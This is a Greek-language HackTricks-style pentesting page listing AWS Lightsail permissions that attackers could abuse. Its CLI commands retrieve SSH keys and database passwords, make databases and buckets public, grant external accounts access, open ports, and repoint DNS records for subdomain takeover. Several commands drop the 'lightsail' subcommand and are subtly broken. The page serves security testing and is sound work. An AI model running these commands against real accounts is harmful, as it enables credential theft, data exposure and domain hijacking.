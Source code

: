 # AWS - Lightsail Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Lightsail

Για περισσότερες πληροφορίες σχετικά με το Lightsail δείτε:

{{#ref}}
../../aws-services/aws-lightsail-enum.md
{{#endref}}

> [!WARNING]
> Είναι σημαντικό να σημειωθεί ότι το Lightsail **doesn’t use IAM roles belonging to the user** αλλά σε έναν AWS managed account, οπότε δεν μπορείτε να καταχραστείτε αυτή την υπηρεσία για privesc. Ωστόσο, **ευαίσθητα δεδομένα** όπως code, API keys και database info μπορεί να βρεθούν σε αυτή την υπηρεσία.

### `lightsail:DownloadDefaultKeyPair`

Αυτή η άδεια θα σας επιτρέψει να αποκτήσετε τα SSH keys για πρόσβαση στα instances:
```
aws lightsail download-default-key-pair
```
**Potential Impact:** Εντοπισμός ευαίσθητων πληροφοριών εντός των instances.

### `lightsail:GetInstanceAccessDetails`

Αυτό το permission θα σας επιτρέψει να δημιουργήσετε SSH keys για να αποκτήσετε πρόσβαση στα instances:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Πιθανός Αντίκτυπος:** Εύρεση ευαίσθητων πληροφοριών μέσα στα instances.

### `lightsail:CreateBucketAccessKey`

Αυτή η άδεια θα σας επιτρέψει να αποκτήσετε ένα κλειδί για πρόσβαση στο bucket:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Πιθανός Αντίκτυπος:** Εύρεση ευαίσθητων πληροφοριών μέσα στο bucket.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Αυτό το δικαίωμα θα σας επιτρέψει να αποκτήσετε τα διαπιστευτήρια για πρόσβαση στη βάση δεδομένων:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Πιθανός Αντίκτυπος:** Εντοπισμός ευαίσθητων πληροφοριών μέσα στη βάση δεδομένων.

### `lightsail:UpdateRelationalDatabase`

Αυτό το δικαίωμα θα σας επιτρέψει να αλλάξετε τον κωδικό πρόσβασης για πρόσβαση στη βάση δεδομένων:
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
Αν η βάση δεδομένων δεν είναι δημόσια, θα μπορούσατε επίσης να την κάνετε δημόσια με αυτά τα δικαιώματα.
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
**Πιθανός Αντίκτυπος:** Εντοπισμός ευαίσθητων πληροφοριών μέσα στη βάση δεδομένων.

### `lightsail:OpenInstancePublicPorts`

Αυτή η άδεια επιτρέπει το άνοιγμα θυρών στο Διαδίκτυο.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Πιθανός αντίκτυπος:** Πρόσβαση σε ευαίσθητες θύρες.

### `lightsail:PutInstancePublicPorts`

Αυτό το δικαίωμα επιτρέπει το άνοιγμα θυρών στο Διαδίκτυο. Σημειώστε ότι η κλήση θα κλείσει οποιαδήποτε θύρα είναι ανοιχτή και δεν αναφέρεται σε αυτή.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Πιθανός αντίκτυπος:** Πρόσβαση σε ευαίσθητες θύρες.

### `lightsail:SetResourceAccessForBucket`

Αυτή η άδεια επιτρέπει να δοθεί σε instances πρόσβαση σε ένα bucket χωρίς επιπλέον διαπιστευτήρια.
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
**Potential Impact:** Νέα πιθανή πρόσβαση σε buckets που περιέχουν ευαίσθητες πληροφορίες.

### `lightsail:UpdateBucket`

Με αυτήν την άδεια, ένας επιτιθέμενος θα μπορούσε να παραχωρήσει στο δικό του AWS account πρόσβαση ανάγνωσης στα buckets ή ακόμη και να κάνει τα buckets δημόσια για όλους:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Potential Impact:** Πιθανή νέα πρόσβαση σε buckets με ευαίσθητες πληροφορίες.

### `lightsail:UpdateContainerService`

Με αυτά τα permissions, ένας attacker θα μπορούσε να χορηγήσει πρόσβαση σε private ECRs από την containers service
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Πιθανές Επιπτώσεις:** Λήψη ευαίσθητων πληροφοριών από ιδιωτικό ECR

### `lightsail:CreateDomainEntry`

Ένας attacker με αυτήν την άδεια θα μπορούσε να δημιουργήσει subdomain και να το δείξει στη δική του IP address (subdomain takeover), ή να δημιουργήσει ένα SPF record που του επιτρέπει να spoof emails από το domain, ή ακόμα και να ορίσει το κύριο domain στη δική του IP address.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Πιθανός αντίκτυπος:** Takeover a domain

### `lightsail:UpdateDomainEntry`

Ένας attacker με αυτή την άδεια θα μπορούσε να δημιουργήσει ένα subdomain και να το δείξει στη δική του IP address (subdomain takeover), ή να δημιουργήσει μια SPF record που του επιτρέπει να spoof emails από το domain, ή ακόμα και να ορίσει το κύριο domain στην δική του IP address.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Πιθανός Αντίκτυπος:** Κατάληψη ενός domain

{{#include ../../../../banners/hacktricks-training.md}}
